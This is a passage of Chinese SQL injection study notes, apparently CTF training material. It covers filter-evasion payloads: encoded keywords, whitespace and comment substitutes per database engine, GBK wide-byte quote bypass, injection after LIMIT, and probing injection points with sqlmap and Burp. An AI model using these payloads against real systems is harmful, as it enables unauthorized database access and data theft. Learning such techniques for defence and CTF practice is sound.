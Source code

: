 or => o\\x72
union => unio\\x6e
- 双重url编码
from => %25%36%36%25%36%66%25%37%32%25%36%64
or => %25%37%35%25%36%39%25%36%65%25%36%66%25%36%65
union =>
#### 5.11.2 过滤空格
1. 注释符绕过
- \#
- \-\-
- /**/  
- //
- ;%00
- ()  
2. url编码绕过
- %20 => %2520
- %0a
3. 空白字符绕过（举例十六进制）
- tab 
- 两个空格
- SQLite3 => 0A,0D,0C,09,20
- MySQL5 => 09,0A,0B,0C,0D,A0,20
- PosgressSQL => 0A,0D,0C,09,20
- Oracle llg => 00,0A,0D,0C,09,20
- MSSQL => 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
5. 特殊符号（反引号、加号、减号、叹号等）
select\`ueser\`,\`password\`from
5. 科学计数法
select user,password from users where user_id\===0e1==union select1,2
#### 5.11.3 过滤单引号
魔术引号即php.ini中的magic_quote_gpc
php版本小于5.4时（5.3废除，5.4移除），如果遇到GB2312、GBK等宽字节编码，可以在注入点增加%df禅师进行宽字节注入（%df%27）
php发送请求到mysql时字符集使用character_set_client设置值进行了一次编码，从而绕过了对单引号的过滤
==极少见==
#### 5.11.4 绕过相等过滤
mysql中存在utf8_unicode_ci和utf8_general_ci两种编码格式。utf8_general_ci**不仅不区分大小写**，而且**Ä=A，Ö=O，Ü=U，β=s**。对于utf8_unicode_ci**β=ss**。
### 5.12 二次注入
第一次入库的时候进行了一些过滤和转义，一般不会是单纯的二次注入，通常还会与报错注入或bool盲注结合出题，一般会贴出源码并告知有二次注入

### 5.13 limit之后的注入
在mysql版本号>5.0.0且<5.6.6时可以在如下位置注入
```sql
select field from table where id > 0 order by id limit {injection_point}
select field from table where id > 0 order by id limit 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
```

### 5.14 注入点的位置及发现
#### 5.14.1 常见注入点位置
1. GET参数注入
地址栏获得URL和参数，可以用sqlmap或手工验证漏洞是否存在
2. POST中的注入
一般需要抓包实现，bp或hackbar，sqlmap或手工
3. User-Agent中的注入
bp中的repeter模块或者sqlmap设置参数level=3，会自动检测其中是否含有注入点
4. Cookie中的注入
bp中的repeter模块或者sqlmap设置参数level=2，会自动检测其中是否含有注入点
#### 5.14.2 判断注入点是否存在
1. 插入单引号